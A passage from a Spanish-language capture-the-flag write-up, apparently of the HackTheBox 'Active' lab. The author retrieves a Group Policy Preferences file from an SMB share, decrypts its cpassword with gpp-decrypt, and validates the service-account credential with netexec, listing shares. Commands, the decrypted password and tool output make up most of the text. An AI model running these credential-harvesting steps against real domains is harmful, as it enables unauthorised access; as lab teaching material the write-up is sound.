 ~~~bash
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
-rw-rw-rw-       1098  Sat Jul 21 06:38:11 2018 GptTmpl.inf
# get GptTmpl.inf
~~~
Al parecer, parece una copia de las politicas del dominio, pero inspeccionando a detalle, se encontro las politicas de contraseñas, esto puede ser util porque sabiendo la estructura de las contraseñas se genera una lista de contraseñas mas adecuada a como funciona el dominio.
Pero lo mas importante que se encontro fue un archivo "groups.xml", al descargar este archivo, se ve un usuario y una contraseña.
~~~
cat Groups.xml     
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
~~~
De ello se puede ver que el usuario "SVC_TGS" (parece una cuenta de servicio) tiene una contraseña peculiarmente larga.
Primero probe la contraseña tal cual, sin modificar nada.
~~~bash
sudo netexec smb 10.10.10.100 -u ../users -p ../pass
SMB         10.10.10.100    445    DC               [-] active.htb\SVC_TGS:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ STATUS_LOGON_FAILURE
~~~
Esta no fue efectiva y por ende no se tuvo acceso, asi que puede que este cifrada de alguna forma, intente ver esto con "hashid" pero no se obtuvo respuesta.
~~~bash
hashid -m hash_svc                                              
--File 'hash_svc'--
Analyzing 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
[+] Unknown hash
--End of file 'hash_svc'-- 
~~~
Entonces preguntando a la IA, esta sugiere que esta cifrada con GPP, históricamente es AES (Rijndael) con una clave estática y conocida que Microsoft usó para ese mecanismo de GPP.
Por ende averiguando en internet existe una utilidad en kali para descifrar dicha contraseña.
~~~bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GP<SNIP>18
~~~
Obteniendo asi una contraseña.
Como no se puede obtener acceso a la maquina por ningun medio como winrm, rdp o ssh, solo se me ocurre ver si se tiene acceso al recurso compartido "users" (o en ultima instancia utilizar bloodhound para mapear el dominio).
~~~bash
sudo netexec smb 10.10.10.100 -u users -p 'GPPstillStandingStrong2k18' --shares
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [-] active.htb\administrator:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
SMB         10.10.10.100    445    DC               [*] Enumerated shares
SMB         10.10.10.100    445    DC               Share           Permissions     Remark
SMB         10.10.10.100    445    DC               -----           -----------     ------
SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.100    445    DC               C$                              Default share
SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
SMB         10.10.10.100    445    DC               NETLOGON        READ            Logon server share 
~~~